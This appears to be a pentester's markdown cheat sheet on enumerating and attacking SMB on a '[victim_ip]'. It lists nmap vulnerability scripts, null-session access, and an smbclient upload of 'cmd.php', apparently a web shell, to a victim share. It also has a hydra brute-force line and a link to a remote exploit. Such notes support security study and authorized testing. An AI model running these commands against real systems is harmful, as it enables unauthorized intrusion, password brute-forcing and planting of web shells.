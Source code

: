 ### SMB:
  It's protocol for sharing files and resources. Runs on port 445 or on port 139
  
##### nmap:
- ls -la /usr/share/nmap/scripts/smb*
- nmap -v -p 139,445 --script=smb-os-discovery [victim_ip]
- nmap -v -sSVC -p 139,445 --script discovery [victim_ip]
- nmap --script smb-enum-shares -p 139,445 [victim_ip]
- nmap -p 445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse [victim_ip]
- nmap -p 445 -vv --script=smb-enum-shares.nse,smb-enum-users.nse [victim_ip]
- nmap -sV -p 139,445 --script=smb-vuln-* --script-args=unsafe=1 [victim_ip]

#### rpcclient
- rpcclient -U "" -N [victim_ip]
```
  -U "" - null session
  -N - no password
```
#### NetBIOS Service
- nbtscan -r [victim_ip]

##### smbmap
  - smbmap -H <victim_ip>
  - smbmap -H <victim_ip> -R
  - smbmap -H <victim_ip> -u anonymous -d <directory>
  
  ***H***: hostname
  ***R***: recursive, go through each directory and oyt the files
  ***U***: username
  
#### smbclinet
```
  - smbclient \\\\[victim_ip]\\[sharename]
  - smbclient -N -L \\\\\[victim_ip]
  - smbclient -N -L //[victim_ip]/directory
  - smbclient //[victim_ip]/"[victim_folder]" -m NT1 --option="client min protocol=NT1"
 ```
 
 #### smbclinet upload file
```
smbclient -N //<victim_ip>/<folder> -c 'put cmd.php cmd.php'
```
 
#### enum4linux
  - Share Enumeration:
    - enum4linux-S [victim_ip]
  - Usernames Enumeration:
    - enum4linux -U -P [victim_ip]
  - All Enumeration:  
    - enum4linux -a [victim_ip]
  - enum4linux -a  [victim_ip]
  - enum4linux -u 'guest' -p '' -a  [victim_ip]
    
#### msfconsole
  - setg rhosts 192.168.55.248
  - use auxiliary/scanner/smb/smb_enumusers
    - run
  - use auxiliary/scanner/smb/smb_enumshares
    - run
  - use auxiliary/scanner/smb/smb_version
    - run
##### create a resource file
```
  echo 'setg rhosts 192.168.55.248' > smbscan.rc
  echo 'use auxiliary/scanner/smb/smb_enumusers' >> smbscan.rc
  echo 'run' >> smbscan.rc
  echo 'use auxiliary/scanner/smb/smb_enumshares' >> smbscan.rc
  echo 'run' >> smbscan.rc
  echo 'use auxiliary/scanner/smb/smb_version' >> smbscan.rc
  echo 'run' >> smbscan.rc
  
  msfconsole -r smbscan.rc
```
  
#### Manual Inspection
```
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
```
usage: ./script.sh [victim_ip]

#### Checklist
- Enumerate hostname: nmblookup -A [victim_ip]
- List shares
  - smbmap -H [victim_ip]
  - echo exit | smbclient -L \\\\[victim_ip]
  - nmap --script smb-enum-shares -p 139,445 [victim_ip]
- Check Null Sessions
  - smbmap -H [victim_ip]
  - rpcclient -U "" -N [victim_ip]
  - smbclient \\\\[victim_ip]\\[share name]
- Check for Vulnerabilities
  - nmap --script smb-vuln* -p 139,445 [victim_ip]
- Overall Scan: enum4linux -a [victim_ip]

#### Samba version checker 
- (bash script)

```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```
- nmblookup -A [victim_ip]

- enum4linux -a [victim_ip]

### Null Session
- null session and extract information
- nbtscan -r [victim_ip]

### Bruteforce
- hydra -l administrator -P /usr/share/wordlists/rockyou.txt -t 1 [victim_ip] smb

### SMB 7.pl (usefull script)
- https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/7.pl

### references
- https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html#nmap
